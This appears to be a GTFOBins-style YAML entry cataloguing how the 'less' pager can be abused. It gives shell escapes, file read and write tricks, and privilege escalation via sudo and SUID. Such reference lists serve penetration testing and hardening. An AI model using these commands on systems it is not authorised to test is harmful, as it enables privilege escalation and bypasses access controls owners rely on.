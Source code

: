 ```yaml
---
name: less
functions:
  shell:
    - code: |
        less /etc/profile
        !/bin/sh
    - code: |
        VISUAL="/bin/sh -c '/bin/sh'" less /etc/profile
        v
  file-read:
    - code: less file_to_read
  file-write:
    - code: |
        echo DATA | less
        sfile_to_write
        q
  sudo:
    - code: |
        sudo less /etc/profile
        !/bin/sh
  suid:
    - code: ./less file_to_read
---
```

